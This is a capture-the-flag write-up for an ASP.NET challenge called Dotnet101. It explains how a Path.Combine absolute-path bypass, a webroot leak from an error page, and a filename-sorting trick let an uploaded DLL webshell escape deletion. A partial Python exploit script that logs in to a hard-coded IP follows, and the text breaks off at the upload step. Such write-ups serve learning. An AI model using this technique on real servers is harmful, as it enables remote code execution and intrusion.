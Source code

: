 ## Dotnet101

**Author:** Taidh

I can't solve this challenge so i ask the author about the idea and the script exploit to learn more about `Dotnet`.

Review code:
Structure of this challenge looks like this:
![image](https://hackmd.io/_uploads/rkNGDTb46.png)


Idea:
- The second parameter in **Path.Combine()** can be controlled, so we can pass an absolute path => Bypass check ..
- To obtain the running path, access **/Test/zeroTestPage?debug=1** because the file **file_does_not_exist** does not exist, and in the **Web.config**, **<customErrors mode="Off"/>** is set, so the error is displayed and contains the path to the webroot (C:\inetpub\wwwroot).
- Note that all folders and files have only "ReadAndExecute" permissions except for Uploads (FullControl) and Test (Modify) because I set permissions for the entire **wwwroot** directory and then only edit permissions for the **Uploads** and **Test** folders, so the **zeroTestPage.aspx** file will keep "ReadAndExecute" permission.
- Create an arbitrary DLL file (webshell) with the class named **ReadNoFlag**, and the file name must start with the letter 'z', with the second character in the file name being the character following 'e' (any character from f to z, case-insensitive). Explanation: Because "zeroTestPage.aspx" is set to have only "ReadAndExecute" permission => no delete permission, when the file is created as described, it will be sorted below the "zeroTestPage.aspx" file when extracted. When the program attempts to delete the "zeroTestPage.aspx" file, it stops, and in the end, we have just uploaded without being deleted.
- Zip the file and upload it to the "C:\inetpub\wwwroot\Test" folder.

Example:
> zexploit.dll (webshell file)
> zeroTestPage.aspx (zeroTestPage.aspx file in Test folder)
> 
> z = z
> e = e
> x > r => it will be sorted below zeroTestPage.aspx file.

Final exploit script:
```python!
import requests
import re

url = 'http://40.88.10.36'

sess = requests.Session()

def Login(username,password):
    response = sess.get(url + '/Login')
    view_state = response.text.split('id="__VIEWSTATE" value="')[1].split('"')[0]
    event_validation = response.text.split('id="__EVENTVALIDATION" value="')[1].split('"')[0]

    login_data = {
        '__VIEWSTATE': view_state,
        '__EVENTVALIDATION': event_validation,
        'txtUsername': username,
        'txtPassword': password,
        'btnLogin': 'Login'
    }
    r = sess.post(url + '/Login', data=login_data)
    print("[-] Login success!")

def uploadDLL(filename):
    response = sess.get(url + '/Admin/UploadImage')
```